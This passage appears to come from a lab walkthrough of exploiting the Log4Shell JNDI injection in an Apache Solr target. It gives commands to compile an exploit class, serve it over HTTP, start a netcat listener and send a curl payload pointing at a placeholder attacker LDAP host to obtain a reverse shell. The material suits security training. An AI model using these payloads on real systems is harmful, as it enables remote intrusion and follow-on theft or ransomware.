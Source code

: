 - The target has been configured with `ncat` for ease of exploitation, so that the command on the Exploit class will work
- Finnaly, compile it

```
javac Exploit.java -source 8 -target 8
```

### Step 5.3 - Run the server on port 8000

- In the same directory as the `Exploit.class` file, run:

```
python3 -m http.server
```

### Step 5.4 - Prepare a netcat listener

In order catch the requests from the target machine, we can run a netcat listener:

```
nc -lnvp 9999
```

### Step 5.4 - Trigger the exploit

```
curl 'http://10.10.220.155:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```

- This way we catch a reverse shell in your netcat listener!

![](images/lab1/8.png)

![](images/lab1/9.png)

![](images/lab1/10.png)

![](images/lab1/11.png)

- At this point, a threat actor can realistically do whatever they would like with the victim, whether it be privilege escalation, exfiltration, install persistence, perform lateral movement or any other post-exploitation, potentially dropping cryptocurrency miners, remote access trojans, beacons and implants or even deploying ransomware.
